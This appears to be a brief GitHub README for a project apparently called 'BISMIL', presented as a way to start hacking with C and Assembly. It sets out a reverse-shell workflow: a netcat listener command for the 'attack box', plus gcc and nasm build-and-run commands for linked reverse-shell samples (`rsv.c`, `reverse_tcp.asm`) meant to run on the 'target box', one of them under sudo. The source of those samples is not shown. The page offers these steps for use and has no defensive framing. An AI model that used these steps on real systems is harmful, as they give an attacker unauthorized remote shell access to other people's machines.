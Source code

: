 <h1>BISMIL</h1>
<h2>Pure way to start hacking programming in C and Assembly languages</h2>
<h3>ON ATTACK BOX RUN:</h3>
<pre>nc -lvp 444</pre>
<img src="https://raw.githubusercontent.com/dewebdes/bismil/master/1.jpeg">
<h3>ON TARGET BOX:</h3>
<ul>
  <li>We need an signal, like exe file or just a tcp request</li>
  <li><a href="https://github.com/dewebdes/bismil/blob/master/rsv.c">PURE C Sample</a><p>
    gcc rsv.c -o rsv
    
sudo ./rsv
    </p></li>
    <li><a href="https://github.com/dewebdes/bismil/blob/master/reverse_tcp.asm">ASM Sample</a><p>
    nasm -f elf32 reverse_tcp.asm && ld -m elf_i386 reverse_tcp.o -o reverse_tcp
    </p></li>
</ul>

<img src="https://raw.githubusercontent.com/dewebdes/bismil/master/2.jpeg">
